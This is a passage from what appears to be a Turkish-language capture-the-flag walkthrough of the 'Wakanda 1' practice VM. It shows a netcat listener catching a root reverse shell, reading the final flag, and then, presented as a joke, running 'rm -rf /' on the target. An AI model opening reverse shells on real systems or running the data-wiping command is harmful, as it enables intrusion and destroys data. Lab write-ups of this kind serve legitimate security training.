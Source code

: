Eğer gerekli her şeyi doğru yaptıysak reverse shell ile root kullanıcısı olarak sisteme giriş yapmış olacağız.

```text
root@kali:~/Downloads# nc -lvp 443
listening on [any] 443 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 52778
root@Wakanda1:/tmp/pip-r3YAWu-build#
```

Atrık root dizinine gidip son flagi de alabiliriz.

```text
root@kali:~/Downloads# nc -lvp 443
listening on [any] 443 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 52778
root@Wakanda1:/tmp/pip-r3YAWu-build# cd /root
cd /root
root@Wakanda1:~# ls
ls
root.txt
root@Wakanda1:~# cat root.txt
cat root.txt
 _    _.--.____.--._
( )=.-":;:;:;;':;:;:;"-._
 \\\:;:;:;:;:;;:;::;:;:;:\
  \\\:;:;:;:;:;;:;:;:;:;:;\
   \\\:;::;:;:;:;:;::;:;:;:\
    \\\:;:;:;:;:;;:;::;:;:;:\
     \\\:;::;:;:;:;:;::;:;:;:\
      \\\;;:;:_:--:_:_:--:_;:;\
       \\\_.-"             "-._\
        \\
         \\
          \\
           \\ Wakanda 1 - by @xMagass
            \\
             \\


Congratulations You are Root!

821ae63dbe0c573eff8b69d451fb21bc
```

İşte son flagimizide aldık. Bundan sonra yapmamız gereken tek şey makineyi patlatmak :) sakın kendi bilgisayarınızda denemeyin. Sizin bilgisayarınızda patlar :)

```text
root@Wakanda1:/tmp/pip-r3YAWu-build# rm -rf /
. . .
. . .
. . .
```

Bu yazım burada biyiyor. Sonraki makinelerde görüşmek üzere. Başarılar dilerim...
